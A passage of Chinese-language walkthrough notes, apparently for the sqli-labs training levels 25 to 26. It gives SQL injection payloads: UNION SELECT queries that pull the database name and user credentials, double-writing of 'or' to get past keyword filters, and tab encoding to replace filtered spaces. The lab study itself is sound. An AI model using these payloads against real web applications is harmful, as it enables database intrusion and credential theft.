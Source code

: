 
## 步骤
1.单引号测试注入点

`?id=1'报错`

`?id=1' --+不报错`

那么就可以进行注入

2.样例payload

`?id=-1' union select 1,2,database()--+`

也就是说基本同前面的语句一样，不过

需要注意的是本题过滤了or和and，

所以查询password的时候要双写"or"变成passwoorrd


***
# less 25a(仍旧是 or and 过滤)
## 原理
把or 和 and 用正则匹配的方式过滤了

preg_replace,并且不区分大小写

这一题没有引号闭合
## 步骤
可以直接使用 union 联合注入呀，没问题啊

样例payload：

`?id=-1 union selet 1,2,group_concat(0x7c,username,0x7e,passwoorrd,0x7c) from users --+`

***
# 26-28可能需要linux环境
# less 26(空格和注释都是我们的啦哈哈哈哈)
## 原理
把空格和注释符都给过滤了

[![BikGTO.jpg](https://s1.ax1x.com/2020/10/22/BikGTO.jpg)](https://imgchr.com/i/BikGTO)

源码中的blacklist函数过滤了各种注释符or还有and与空格，当然还有斜杠

对于绕过and 和 or用双写就可

对于绕过空格

>%09 TAB键（水平）
